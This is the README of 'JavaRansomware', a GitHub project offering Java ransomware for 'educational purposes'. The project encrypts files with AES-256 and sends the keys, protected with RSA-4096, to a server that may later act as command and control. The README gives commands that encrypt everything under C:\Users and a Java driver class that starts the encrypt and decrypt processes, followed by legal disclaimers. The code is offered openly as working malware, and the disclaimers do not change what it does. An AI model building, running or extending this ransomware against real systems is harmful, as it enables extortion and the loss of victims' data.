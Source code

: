 # JavaRansomware
<p>Ransomware is malware for data kidnapping, an exploit in which the attacker encrypts the victim's dataRansomware stops you from using your PC.Ransomware spreads through e-mail attachments, infected programs and compromised websites. A ransomware malware program may also be called a cryptovirus, cryptotrojan or cryptoworm It holds your PC or files for "ransom".</p>

#What does ransomware do?
<p>There are different types of ransomware. However, all of them will prevent you from using your PC normally, and they will all ask you to do something before you can use your PC.

They can target any PC users, whether it’s a home computer, endpoints in an enterprise network, or servers used by a government agency or healthcare provider.

Ransomware can:</p>

* Prevent you from accessing Windows.

* Encrypt files so you can't use them.

* Stop certain apps from running (like your web browser).

<p>Ransomware will demand that you pay money (a “ransom”) to get access to your PC or files. We have also seen them make you complete surveys.

There is no guarantee that paying the fine or doing what the ransomware tells you will give access to your PC or files again.</p>

# Project Summary
This project aims to build an almost functional crypto-ransomware for educational purposes, written in in pure java. Basically, it will encrypt your files in background using AES-256, a strong encryption algorithm, using RSA-4096 to secure the key exchange with server. Yeah, a Cryptolocker like malware.

It is composed of two main parts, the server and the malware itself.

The server is responsible for store the Id and the respective encryption key and possibly act as a Command and Control server in the near future.

The malware encrypt with your RSA-4096 public key any payload before send then to the server. This approach with the https transport together make the security and authentication almost unbreakable (in theory)

#Usage and How it Works
<p>The easiest way to run this Project is to use the the .jar open a cmd terminal and simply run the below commands <p>

 ```
 $ cd JarPath
```

<p>Encrypt All Files in the Current Path <p>
 ```
 $ java -jar JavaRansomware.jar C:\Users Encrypt
```

<p>Decrypt All Files in the Current Path <p>
 ```
 $ java -jar JavaRansomware.jar C:\Users Decrypt
```
<p>if you want to use the project programmatically just put the below code in your project and simply run it. Don't forget to give Input arguments from the Command-Line Arguments. i've put  a printscreen to see how to give Paramaters<p>

<h2>Java Manual</h2>
```java
public class App {
 
    private static final String ENCRYPT = "ENCRYPT";
    private static final String DECRYPT = "DECRYPT";

    public static void main(String[] args) throws RansomwareException {

        Processing(args[0], args[1]);
    }

    private static void Processing(final String toSearch, final String attack) throws RansomwareException {
        final RansomProcess p = new RansomProcess(toSearch);

        if (attack.equalsIgnoreCase(ENCRYPT))
            p.StartEncryptProcess(PubicKey);
        else if (attack.equalsIgnoreCase(DECRYPT))
            p.StartDecryptProcess(PrivateKey);
        else
            throw new RansomwareException("Mismatched Values Try again with correct one");

    }

}
```
---

> DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT!

#Legal Warning
<p>While this may be helpful for some, there are significant risks. JavaRansomware may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail if if you will use it for malicious purposes.</p>


#Contribute
 1. Fork it: git clone https://github.com/PanagiotisDrakatos/JavaRansomware.git
 2. Create your feature branch: git checkout -b my-new-feature
 3. Commit your changes: git commit -am 'Add some feature'
 4. Push to the branch: git push origin my-new-feature
 5. Submit a pull request :D
 
#License
<p> This project is licensed under the MIT License - see the<a href="https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/LICENSE">Licence.md</a>file for details</p>
